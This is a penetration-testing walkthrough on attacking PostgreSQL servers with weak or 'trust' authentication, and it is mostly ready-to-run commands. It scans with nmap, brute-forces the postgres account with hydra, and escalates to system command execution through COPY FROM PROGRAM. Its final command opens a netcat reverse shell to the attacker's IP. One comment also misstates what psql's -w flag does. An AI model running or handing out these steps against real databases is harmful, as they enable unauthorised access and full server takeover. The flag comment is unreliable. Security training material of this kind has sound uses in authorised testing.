 PostgreSQL Weak Authentication

Theory & Background
PostgreSQL can use various authentication methods defined in its pg_hba.conf file. A common misconfiguration is using trust authentication for all connections or for specific users/databases. This allows anyone to connect to the database without a password, often with high privileges. Weak or default passwords (e.g., postgres:postgres) are also a major issue.

Step-by-Step Walkthrough
1. Identification
bash
nmap -p5432 -sV --script pgsql-info <target_ip>
Expected Result: Nmap will confirm the service and version. To test for authentication, you need to try to connect.

2. Exploitation
bash
# 1. Attempt a connection with common credentials
psql -h <target_ip> -U postgres -W  # It will prompt for password

# 2. Brute-forcing (with hydra)
hydra -l postgres -P /usr/share/wordlists/rockyou.txt <target_ip> postgres

# 3. If 'trust' authentication is misconfigured, you can connect without a password:
psql -h <target_ip> -U postgres -w
# The -w flag forces a password prompt, but if auth is 'trust', it will be bypassed.

# 4. Once connected, you can escalate to command execution.
# Check if you are a superuser:
SELECT usename, usesuper FROM pg_user;

# If you are superuser, use these functions for RCE:
# Example: Create a table that writes a file
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;

# To get a reverse shell:
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> 4444 >/tmp/f';
What to do: Use the COPY FROM PROGRAM or \o meta-command to execute system commands and gain a foothold on the underlying server.
